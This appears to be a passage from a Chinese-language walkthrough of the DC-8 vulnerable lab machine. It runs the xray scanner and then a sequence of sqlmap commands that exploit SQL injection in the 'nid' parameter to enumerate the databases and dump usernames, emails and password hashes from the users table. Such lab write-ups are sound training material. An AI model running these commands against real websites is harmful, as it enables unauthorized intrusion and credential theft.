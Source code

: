 > xray使用
>
> [（2022最新）Xray、Rad两款工具的使用与联动_xray联动rad-CSDN博客](https://blog.csdn.net/qq1140037586/article/details/128316160)

```
xray_windows_amd64.exe webscan --browser-crawler http://192.168.159.133 --ho dc82.html
```

![image-20231230200909606](DC-8.assets/image-20231230200909606.png)

sqlmap跑一下

```
python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch --dbs

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch -D d7db --tables

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch -D d7db -T users --columns

python sqlmap.py -u http://192.168.159.133/?nid=* --random-agent --level 5 --risk 3 --batch -D d7db -T users -C mail,name,pass --dump
```

